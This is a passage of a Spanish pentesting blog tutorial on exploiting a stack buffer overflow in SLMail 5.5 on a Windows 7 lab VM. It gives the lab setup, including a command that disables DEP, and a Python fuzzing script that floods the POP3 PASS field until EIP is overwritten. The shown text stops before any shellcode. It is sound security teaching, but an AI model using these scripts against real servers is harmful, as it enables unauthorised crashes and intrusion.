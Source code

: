 ```yaml
---
layout: single
title: Stack Buffer Overflow en Windows
excerpt: "En este artículo vemos cómo explotar un stack buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual con windows 7 x86."
date: 2021-02-13
classes: wide
header:
  teaser: /assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg
  teaser_home_page: true
categories:
  - Buffer-Overflow
tags:
  - Buffer Overflow
  - Python
  - Pentesting
---
```


![](/assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg)

En este artículo veremos cómo explotar un buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual Windows 7 x86.

Primero quiero agradecer a s4vitar por su tutorial y por servirme de inspiración.

Necesitaremos una máquina virtual con windows 7 x86, el software SLMail v5.5, inmunity debuguer y mona.py para añadir funcionalidades al debuguer.

Links de descarga:

[SLMail 5.5](https://slmail.software.informer.com/5.5/)<br>
[Inmunity debuguer](https://www.immunityinc.com/products/debugger/)<br>
[Mona.py](https://github.com/corelan/mona/blob/master/mona.py)<br>

Instalaremos SLMail y inmunity debuguer en la máquina windows, y luego añadiremos mona al inmunity debuguer. Para ello descargaremos el script y lo colocaremos en la ruta C:\Program Files\Inmunity Inc\Inmunity Debuguer\PyCommands\.

Además tendremos que crear reglas en el firewall de windows para permitan el tráfico en los puertos 25 y 110. Y por último deshabilitar el DEP con el siguiente comando ejecutado como administrador:

`bcdedit.exe /set {current} nx AllwaysOff`

Cuando tengamos esto ya podemos empezar a practicar.

Si lanzamos un nmap a la ip de la máquina tiene que responder con los puertos 25 y 110 abiertos, entre otros.

![](/assets/images/Stack-Buffer-Overflow-Windows/nmap-slmail.png)

En la máquina windows siempre ejecutaremos las aplicaciones SLMail y inmunity debuguer como administrador. Abrimos las dos aplicaciones, en el debuguer pulsamos en File/Atach, seleccionamos el proceso SLmail, y pulsamos en el icono Run Program o pulsamos F9.

![](/assets/images/Stack-Buffer-Overflow-Windows/slmail.png)

![](/assets/images/Stack-Buffer-Overflow-Windows/inmunity.png)

En este punto si hacemos un searchsploit slmail vemos que hay varios exploits que se aprovechan del campo PASS en el momento de la autenticación. Con lo cual el campo vulnerable es PASS.

![](/assets/images/Stack-Buffer-Overflow-Windows/searchsploit-slmail.png)

## Explicación sencilla del stack buffer overflow

Una explicación sencilla sería la siguiente. Cuando alguien se autentica contra el SLMail, tiene que introducir lógicamente un usuario y contraseña. Bien pues en el campo PASS no se está controlando la cantidad de bytes que puede aceptar, con lo cual si nosotros le pasamos más de los que tiene definidos a nivel de código se producirá un desbordamiento de memória, y estaremos sobreescribiendo partes de la memória que no deberian de tomar esos valores para una ejecución normal del programa.

Se trata de tomar el control del registro EIP, que siempre apunta a la próxima dirección de memoria a ejecutar, para que el flujo del programa se desplace hasta la dirección que nosotros queramos, donde habremos sobreescrito los valores de esas direcciones con nuestro shellcode, que nos lanzará una reverse shell y nos conectará a la máquina victima.

## Exploit inicial

Empezamos con el exploit. Crearemos un script en python que se conectará a la máquina windows en el puerto 110 y le pasará un usuario, y en el campo PASS le iremos pasando el carácter "A" muchas veces para ver cuando corrompe el programa.

El código es el siguiente:

```python
#!/usr/bin/python
#coding: utf-8

from pwn import *
import socket, sys

if len(sys.argv) < 2:
        print "\n[!] Uso: python " + sys.argv[0] + " <ip_address>\n"
        sys.exit(0)

#Variables globales
ip_address = '192.168.1.20'
rport = 110

if __name__ == '__main__':
        buffer = ["A"]
        contador = 350

        while len(buffer) < 32:
                buffer.append("A"*contador)
                contador += 350


        p1 = log.progress("Data")


        for strings in buffer:

                try:
                        p1.status("Enviando %s bytes" % len(strings))
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((ip_address, rport))

                        data = s.recv(1024)

                        s.send("USER ximo\r\n")
                        data = s.recv(1024)
                        s.send("PASS %s\r\n" % strings)
                        data = s.recv(1024)

                except:
                        print "\n[!] Ha habido un error de conexión\n"
                        sys.exit(1)

```

El exploit le pasará nuestras "A" en el campo PASS de 350 en 350, la primera vez una "A", la segunda 350 "A", la tercera 700 "A", etc.

Ejecutamos el exploit y vemos lo que sucede en el inmunity debuguer. Podemos ver que se ha corrompido el programa porque hemos sobreescrito direcciones de memória, incluido el registro EIP que ahora apunta a la dirección 0x41414141, que son nuestras "A", y al no ser una dirección válida se detiene el flujo de ejecución.

![](/assets/images/Stack-Buffer-Overflow-Windows/exploit-inicial.png)

